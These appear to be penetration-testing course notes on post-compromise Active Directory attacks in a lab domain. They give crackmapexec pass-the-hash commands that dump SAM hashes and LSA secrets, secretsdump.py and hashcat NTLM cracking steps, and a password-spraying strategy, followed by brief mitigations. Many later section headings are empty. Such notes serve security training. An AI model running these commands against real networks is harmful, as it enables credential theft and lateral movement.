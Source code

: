 # Attacking Active Directory - Post-Compromise Attacks

## Introduction

- we need some credentials for these attacks to be effective.

## Pass Attacks Overview

- `apt install crackmapexec`
- `crackmapexec smb --help` to see what we need to provide

## Pass Attacks

- `crackmapexec smb 192.168.92.0/24 -u fcastle -d MARVEL.local -p 'Password1'`
- `crackmapexec smb 192.168.92.0/24 -u fcastle -d MARVEL.local -p 'Password1' --sam` to dump the sam hashes
- `crackmapexec smb 192.168.92.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 --local-auth --sam` or `crackmapexec smb 192.168.92.0/24 -u "David Lieberman" -H aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0 --local-auth --sam`
- `crackmapexec smb 192.168.92.0/24 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 --local-auth --shares` to see shared folders
- `crackmapexec smb 192.168.92.0/24 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 --local-auth --lsa` to see LSA secrets

### Using modules

- `crackmapexec smb 192.168.92.0/24 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -M lsassy`
- everything is stored in CME database: `cmedb`, then `hosts` and `creds` in the shell

## Dumping and Cracking Hashes

- `secretsdump.py MARVEL.local/administrator:'P@$$w0rd!'@192.168.92.146`: there can be clear text passwords and logins in here

- Need the NT portion, not the LM
- Full hash: `aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0`
- LM Portion: `aad3b435b51404eeaad3b435b51404ee`
- NT Portion: `31d6cfe0d16ae931b73c59d7e0c089c0`
- `hashcat -m 1000 ntlm.txt /usr/share/wordlists/rockyou.txt`

- once you have fcastle hash, you crack it, you spray the password. Once you found a new login, you secretdump thos logins. Now, you can use local admin hashes to respray the network with local accounts (reducing the risk to block an account).

## Pass Attack Mitigations

### Limit Account re-use

- Avoid re-using local admin password (error with fcastle)
- Disable guest and Admin accounts
- Limit who is a local admin (least privilege)

### Utilize Strong Passwords

- The longer, the better (>14 characters)
- Avoid using common words
- Long sentences

### Privilege Access Management (PAM)

- Check out/in sensitive accounts when needed
- Automatically rotate passwords on check out/in
- Limits pass attacks as hash/passwords is strong and constantly rotated

## Kerberoasting Overview

## Kerberoasting Walkthrough

## Kerberoasting Mitigation

## Token Impersonation Overview

## Token Impersonation Walkthrough

## Token Impersonation Mitigation

## LNK File Attacks

## GPP / cPassword Attacks and Mitigations

## Mimikatz Overview

## Credential Dumping with Mimikatz

## Post-Compromise Attack Strategy

